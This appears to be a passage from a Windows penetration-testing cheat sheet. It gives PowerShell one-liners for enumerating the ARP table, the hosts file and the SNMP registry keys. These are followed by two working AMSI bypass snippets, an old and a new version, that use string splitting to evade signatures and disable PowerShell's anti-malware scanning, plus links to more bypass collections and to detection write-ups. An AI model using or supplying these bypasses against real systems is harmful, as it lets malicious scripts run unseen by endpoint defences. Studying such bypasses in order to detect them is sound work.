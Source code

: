 ### ARP

```text
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

### Hosts

```text
Get-Content C:\WINDOWS\System32\drivers\etc\hosts
```

### SNMP

```text
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## AMSI bypass

```bash
(old) 
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

(new)
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)


# Testing for Amsi Bypass:
https://github.com/rasta-mouse/AmsiScanBufferBypass

# Amsi-Bypass-Powershell
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
https://slaeryan.github.io/posts/falcon-zero-alpha.html
```

